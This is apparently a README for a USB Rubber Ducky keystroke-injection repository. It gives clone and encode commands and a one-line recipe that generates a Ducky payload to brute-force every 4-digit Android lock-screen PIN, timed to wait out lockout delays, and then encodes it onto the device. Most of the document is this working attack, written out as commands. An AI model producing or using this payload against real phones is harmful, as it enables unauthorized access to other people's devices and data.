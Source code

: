 # Install

```
git clone https://github.com/jbarcia/ducky && cd ducky
```
```
chmod a+rx /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar
```
# Copy Payload in to Rubber Ducky
```
java -jar /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar -i helloworld.txt -o /Volumes/RubberDucky/inject.bin
```

# Android Payload 

```
port install gsed
```
## Create Dictionary 
``` 
echo DELAY 5000 > android_brute-force_0000-9999.txt; echo {0000..9999} | xargs -n 1 echo STRING | gsed '0~5 s/$/\nWAIT/g' | gsed '0~1 s/$/\nDELAY 1000\nENTER\nENTER/g' | gsed 's/WAIT/DELAY 5000\nENTER\nDELAY 5000\nENTER\nDELAY 5000\nENTER\nDELAY 5000\nENTER/g' >> android_brute-force_0000-9999.txt
```

## Copy Payload in Rubber Ducky
``` 
java -jar /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar -i android_brute-force_0000-9999.txt -o /Volumes/RubberDucky/inject.bin
``` 
